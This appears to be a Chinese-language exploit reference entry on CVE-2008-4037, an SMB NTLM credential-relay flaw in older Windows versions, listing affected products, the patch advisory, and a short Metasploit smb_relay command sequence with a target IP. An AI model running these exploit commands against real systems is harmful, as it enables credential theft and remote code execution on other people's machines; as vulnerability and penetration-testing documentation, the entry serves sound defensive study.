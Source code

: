 ### CVE-2008-4037

#### 描述

通过远程SMB服务器可以重播客户端用户的NTLM凭据在客户端计算机上执行任意代码

#### 影响版本

| Product             | Version | Update  | Edition | Tested |
| ------------------- | ------- | ------- | ------- | ------ |
| Windows XP          |         | SP2     |         |        |
| Windows XP          |         | SP2     | X64     |        |
| Windows XP          |         | SP3     |         |        |
| Windows XP          |         | Unknown | X64     |        |
| Windows Server 2003 |         | SP1     | Itanium |        |
| Windows Server 2003 |         | SP2     |         |        |
| Windows Server 2003 |         | SP2     | Itanium |        |
| Windows Server 2003 |         | SP2     | X64     |        |
| Windows Server 2003 |         | Unknown | X64     |        |
| Windows Server 2003 |         | SP1     |         |        |
| Windows 2000        | -       | SP4     |         |        |
| Windows Server 2008 | -       |         | X32     |        |
| Windows Server 2008 | -       |         | X64     |        |
| Windows Server 2008 | -       |         | Itanium |        |
| Windows Vista       | -       | SP1     | X64     |        |
| Windows Vista       | -       |         |         |        |
| Windows Vista       | -       |         | X64     |        |
| Windows Vista       | -       | SP1     |         |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2008-4037
```

#### 利用方式

使用msf 测试系统windows server 2003 sp2 x86

```
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.14 #目标IP
run
```

![image-20200823142846532](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4037_win2003_x86_msf.png?raw=true)


